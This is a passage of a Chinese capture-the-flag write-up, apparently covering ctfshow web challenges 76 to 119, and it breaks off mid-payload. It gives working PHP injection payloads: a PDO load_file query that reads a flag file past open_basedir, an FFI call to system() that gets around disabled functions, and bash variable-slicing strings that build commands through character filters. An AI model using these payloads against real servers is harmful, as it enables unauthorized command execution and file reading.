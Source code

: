 存在open_basedir
于是利用mysql的pdo连接 load_file 访问该文件：（这里的数据库名）(76为flag36d.txt)

```
c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
'root');foreach($dbh->query('select load_file("/flag36.txt")') as $row)
{echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);
```



## 77-FFI

用FFI ，需要php>=7.4：[PHP: FFI::cdef - Manual](https://www.php.net/manual/zh/ffi.cdef.php)

1. 蚁剑disable_function插件ffi.php7.4绕过

2. payload: 执行后访问1.txt

   ```
   c=?><?php $ffi = FFI::cdef("int system(const char *command);");
   $ffi->system("/readflag > 1.txt");
   exit();
   ```

   其中：
   
   ```
   $ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
   $a='/readflag > 1.txt';//没有回显的
   $ffi->system($a);//通过$ffi去调用system函数
   ```
   
   



## 118-剪裁内置变量构造命令

F12看源码：`system($code)`

fuzz发现ban了很多东西，只能使用大写字母和一些符号

可以剪裁(切片)内置变量如：$PATH、$IFS等等来构造指令输出flag
关于内置变量可以看：[常见 Bash 内置变量介绍 - sparkdev - 博客园](https://www.cnblogs.com/sparkdev/p/9934595.html)

利用`${PATH}中bin的n`和`${PWD}html的l`构造nl：`${PATH:~A}${PWD:~A}` (~取反表示从最后面开始数，a相当于0)

```
${PATH:~A}${PWD:~A}$IFS????.???
```



## 119

> 过滤了`$PATH`

1. 构造tac flag.php：

   > PHP_CTLAGS=-fstack-protectxxxxxx
   > PHP_VERSION=7.3.22
   > SHLVL=2（深度，默认为1）
   >
   > 那么取PHP_CFLAGS的第三位起的三位字母即可得到命令tac
   > 构造：
   >
   > ```
   > 3=${PHP_VERSION:${PHP_VERSION:~A}:~${SHLVL}}
   > tac=${PHP_CFLAGS:${PHP_VERSION:${PHP_VERSION:~A}:~${SHLVL}}:${PHP_VERSION:${PHP_VERSION:~A}:~${SHLVL}}}
   > ```
   >
   > payload：